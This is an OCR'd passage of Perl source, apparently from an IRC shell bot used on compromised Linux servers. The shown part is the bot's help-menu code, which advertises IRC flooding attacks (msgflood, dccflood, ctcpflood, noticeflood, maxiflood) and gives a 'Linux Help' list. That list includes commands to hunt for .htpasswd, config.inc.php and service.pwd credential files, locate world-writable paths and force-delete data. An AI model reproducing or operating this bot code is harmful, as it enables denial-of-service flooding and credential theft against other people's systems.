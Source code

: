             sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3halfop <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3dehalfop <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3op <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3deop <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[Flooding Based]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3msgflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3dccflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3ctcpflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3noticeflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3channelflood"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3maxiflood <who> "); 

} 

  

         if ($funcarg =~ /^linuxhelp/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[Linux Help]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Dir where you are : pwd"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Start a Perl file : perl file.pl"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Go back from dir : cd .."); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Force to Remove a file/dir : rm -rf file/dir;ls -la"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Show all files/dir with permissions : ls -lia"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Find config.inc.php files : find / -type f -name config.inc.php"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Find all writable folders and files : find / -perm -2 -ls"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Find all .htpasswd files : find / -type f -name .htpasswd"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@ 3Find all service.pwd files : find / -type f -name service.pwd"); 

         } 

           

         if ($funcarg =~ /^help/) { 

             sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[Help Commands]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3flooding - For IRC Flooding Help"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3irc - For IRC Bot Command Help "); 
